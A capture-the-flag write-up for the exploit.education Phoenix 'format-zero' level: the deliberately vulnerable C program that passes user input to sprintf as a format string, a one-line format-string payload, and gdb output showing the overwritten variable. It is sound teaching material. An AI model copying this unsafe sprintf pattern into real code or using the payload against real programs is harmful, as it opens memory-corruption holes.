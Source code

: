 # FORMAT ZERO

## SOURCE CODE

```c
/*
 * phoenix/format-zero, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * 0 bottles of beer on the wall, 0 bottles of beer! You take one down, and
 * pass it around, 4294967295 bottles of beer on the wall!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

## STRATEGY

The vulnerability is the "format string", so if you don't know it, this is a simple guide:

https://secgroup.dais.unive.it/teaching/security-course/format-strings/.

Back to problem, we can write up to 15 bytes in a 32 bytes buffer called "'dest'". The goal is overflow the buffer and overwrite the variable "'changeme'", that is possible thanks to a format string injection because during sprintf there is not format strings directives, so any format string will be interpreted. Injecting a format string with buffer dimension plus any value will give us the victory!

## EXPLOIT

```python
python -c 'print "%32xAAAA"' | ./format-zero'
```

You can manually check the result with gdb, checking the variable changeme (ebp-0xc) before and after sprintf

``` gdb
gef➤  x $ebp-0xc
0xffffd5dc:	0x00000000
```

```gdb
gef➤  x $ebp-0xc
0xffffd5dc:	0x41414141
```


